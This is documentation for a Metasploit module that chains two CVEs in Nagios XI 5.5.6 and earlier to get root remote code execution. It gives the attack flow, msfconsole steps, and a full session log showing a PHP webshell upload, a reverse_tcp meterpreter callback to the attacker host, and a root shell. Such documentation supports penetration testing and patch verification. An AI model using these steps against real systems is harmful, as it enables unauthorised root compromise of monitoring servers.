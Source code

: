 ## Vulnerable Application

This module exploits two vulnerabilities in Nagios XI <= 5.5.6:
CVE-2018-15708 which allows for unauthenticated remote code execution
and CVE-2018-15710 which allows for local privilege escalation.
When combined, these two vulnerabilities allow execution of arbitrary
commands as root.

The exploit works as follows:

- A local HTTPS server is setup. When it is reached, this server responds with a payload.
- By crafting a malicious request, we make the target host send a request to our HTTPS server.
  - The local HTTPS server must be reachable from the Nagios host.
  - The `RSRVHOST` and `RSRVPORT` options are used to specify the HTTPS server host and port.
- A PHP webshell and payload executable are uploaded via `magpie_debug.php`.
- A command is executed via the webshell. This command elevates privileges and runs the payload executable.

## Verification Steps

Download a vulnerable version of the Nagios XI virtual appliance:

* https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.4.10-64.ova
* https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.4.13-64.ova
* https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.5.0-64.ova
* https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.5.6-64.ova

Or download a [vulnerable application installer](https://www.nagios.com/downloads/nagios-xi/older-releases/) and follow the
[installation instructions](https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf).

Metasploit:

1. `msfconsole`
1. `use exploit/linux/http/nagios_xi_magpie_debug`
1. `set RHOSTS [IP]`
1. `set RSRVHOST [IP]`
1. `exploit`
1. You should get a new session with *root* privileges

## Options

### RSRVHOST

IP address at which the local HTTPS server can be reached.
Most of the time it will be a public IP (e.g. your router IP if you have port forwarding).

### RSRVPORT

Port at which the local HTTPS server can be reached.

## Scenarios

## NagiosXI 5.5.6 (x64) virtual appliance

```
msf > use exploit/linux/http/nagios_xi_magpie_debug
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/nagios_xi_magpie_debug) > set rhosts 10.1.1.113
rhosts => 10.1.1.113
msf exploit(linux/http/nagios_xi_magpie_debug) > set rsrvhost 10.1.1.114
rsrvhost => 10.1.1.114
msf exploit(linux/http/nagios_xi_magpie_debug) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.1.1.114:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Found MagpieRSS.
[*] Using URL: https://0.0.0.0:8080/iRtxnl8L
[*] Local IP: https://10.1.1.114:8080/iRtxnl8L
[*] Server started.
[*] Uploading to /usr/local/nagvis/share/fbHGUhauqtV.php ...
[+] fbHGUhauqtV.php uploaded successfully!
[*] Using URL: https://0.0.0.0:8080/YvyES7YlFee8R
[*] Local IP: https://10.1.1.114:8080/YvyES7YlFee8R
[*] Server started.
[*] Uploading to /usr/local/nagvis/share/nYRTioXKBam ...
[+] nYRTioXKBam uploaded successfully!
[*] Checking PHP web shell: /nagvis/fbHGUhauqtV.php
[+] Success! Commands executed as user: uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
[*] Attempting privilege escalation ...
[*] Sending stage (3008420 bytes) to 10.1.1.113
[*] Meterpreter session 1 opened (10.1.1.114:4444 -> 10.1.1.113:42314) at 2021-03-16 02:58:20 -0400
[+] Deleted /usr/local/nagvis/share/fbHGUhauqtV.php
[+] Deleted /usr/local/nagvis/share/nYRTioXKBam
[!] This exploit may require manual cleanup of '/var/tmp/hRyNmrQHZAq.nse' on the target
[*] Server stopped.

msf exploit(linux/http/nagios_xi_magpie_debug) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.5.1804 (Linux 3.10.0-862.14.4.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
